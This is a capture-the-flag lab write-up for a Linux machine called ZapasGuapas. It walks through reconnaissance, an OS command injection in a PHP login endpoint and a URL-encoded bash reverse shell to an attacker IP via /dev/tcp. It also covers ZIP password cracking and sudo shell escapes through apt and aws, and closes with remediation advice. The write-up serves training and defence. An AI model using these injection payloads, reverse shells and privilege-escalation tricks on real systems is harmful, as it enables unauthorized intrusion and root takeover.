










# ZapasGuapas - Write-up

| Field | Details |
| :--- | :--- |
| **Platform** | HackersLabs |
| **Operating System** | Linux |
| **Difficulty** | Easy |
| **IP Address** | 192.168.86.94 |
| **Date** | March 3, 2026 |

## 1. Executive Summary

The **ZapasGuapas** machine exploitation involved identifying a **Command Injection vulnerability** in a PHP-based login system. By injecting a reverse shell into authentication parameters, initial access was gained as `www-data`. Post-exploitation revealed a password-protected ZIP archive in `/opt`; cracking it provided credentials for user `pronike`. Privilege escalation followed two steps: abusing sudo permissions on `apt` to pivot to `proadidas`, then exploiting sudo on `aws` to obtain root via its pager functionality.

## 2. Reconnaissance & Enumeration

### 2.1 Network Scanning

The process began with host identification and a service-oriented port scan.

```bash
sudo arp-scan --localnet -g
whichSystem.py 192.168.86.94
# Result: Linux (TTL 64)

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.86.94 -oG allPorts
extractPorts allPorts
nmap -p22,80 -sCV 192.168.86.94 -oN target
```

**Key Findings:**

| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 9.2p1 |
| 80 | HTTP | Apache httpd 2.4.57 |

### 2.2 Web Enumeration

After accessing the web and not finding anything I did directory fuzzing with `gobuster`.

```bash
gobuster dir -u http://192.168.86.94/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt
```


A `login.html` page was discovered. Source code analysis revealed credentials sent to `run_command.php` via GET request, suggesting potential command execution also The parameter username and password suggested that the backend might be executing system commands.




## 3. Exploitation (Foothold)

### 3.1 OS Command Injection

I tested for command injection using Burp Suite by appending a semicolon and the `whoami` command to the password parameter.

```http
GET /run_command.php?username=a&password=a;whoami HTTP/1.1
```

The server responded with `www-data`, confirming the vulnerability.

```http
HTTP/1.1 200 OK
Date: Tue, 03 Mar 2026 15:40:04 GMT
Server: Apache/2.4.57 (Debian)
Content-Length: 20
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<pre>www-data
</pre>
```

### 3.2 Reverse Shell

After confirming that I leveraged this injection to execute a Bash reverse shell, encoded for the URL:

```http
GET /run_command.php?username=a&password=a%3B%20bash%20-c%20'bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.86.93%2F4444%200%3E%261' HTTP/1.1
```

```bash
nc -lvnp 4444
```

After setting up a listener with nc -lvnp 4444, I gained access as www-data. I then performed a full TTY treatment to obtain an interactive shell.

```bash
script /dev/null -c bash 
#Conseguimos el promt y hacemos ctrl + z
stty raw -echo;fg 
reset xterm
export SHELL=bash
export TERM=xterm
```


## 4. Privilege Escalation

### 4.1 Horizontal Escalation (pronike)

While enumerating the filesystem, I discovered a hint regarding a stolen password in /home/pronike/nota.txt and a file named importante.zip in /opt.



So I exfiltrated the file using a Python HTTP server:
```bash
#ZapasGuapas
cd /opt && python3 -m http.server 8000
```
I used zip2john and john to crack the archive.
```bash
#Kali
wget http://192.168.86.94:8000/importante.zip
zip2john importante.zip > importanteHash
john --wordlist=/usr/share/wordlists/rockyou.txt importanteHash
```

Obtaining the zip file password



And then the password of pronike



### 4.2 Pivot to proadidas (sudo apt)

Checking sudo permissions for pronike showed access to the apt binary as proadidas.
```bash
pronike@zapasguapas:~$ sudo -l
Matching Defaults entries for pronike on zapasguapas:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pronike may run the following commands on zapasguapas:
    (proadidas) NOPASSWD: /usr/bin/apt
```

So I exploited this using a [GTFOBins](https://gtfobins.org/gtfobins/apt/) technique by invoking the changelog function and escaping to a shell:

```bash
sudo -u proadidas apt changelog apt
!/bin/bash
```

### 4.3 Vertical Escalation (root via aws)

As proadidas, I checked sudo permissions again and found access to aws.

```bash
proadidas@zapasguapas:~$ sudo -l
Matching Defaults entries for proadidas on zapasguapas:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User proadidas may run the following commands on zapasguapas:
    (proadidas) NOPASSWD: /usr/bin/apt
    (root) NOPASSWD: /usr/bin/aws
```

I found an exploit in [GTFObins](https://gtfobins.org/gtfobins/aws/) that the aws help command uses a pager and by invoking help, I was able to escape the pager to a root shell:

```bash
sudo aws help
!/bin/bash
```

The `aws help` command uses a pager, allowing escape to a root shell.

## 5. Flags & Proof

www-data


pronike



proadidas



Root



## 6. Remediation & Hardening

- **Sanitize Inputs:** The run_command.php script should never pass raw user input to system execution functions like exec(), system(), or passthru(). Use a whitelist of allowed characters or avoid shell execution entirely.
- **Secure Storage:** Sensitive archives like importante.zip should not be world-readable and should use stronger encryption than standard ZIP 2.0.
- **Principle of Least Privilege:** Remove `apt` and `aws` from the sudoers list. Both binaries allow shell escapes through pagers or configuration hooks, making them highly dangerous in a sudoers configuration.
- **Credential Management:** Avoid storing plain-text passwords in files inside archives.

---

Authored by: Brutotes
[⬅️ Back to Home](../../README.md)